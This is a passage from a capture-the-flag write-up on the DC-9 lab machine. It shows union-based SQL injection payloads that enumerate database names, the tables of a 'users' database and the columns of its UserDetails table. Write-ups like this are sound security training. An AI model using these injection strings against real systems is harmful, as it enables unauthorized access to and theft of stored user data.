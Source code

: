 - All database names:`information_schema`, `Staff`, `users`

**Since database `users` seems to be interesting, let's enumerate it's tables first:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='users'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a13.png)

- Database `users`'s table name:`UserDetails`

**List database `users`'s column names:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='UserDetails'-- -
```
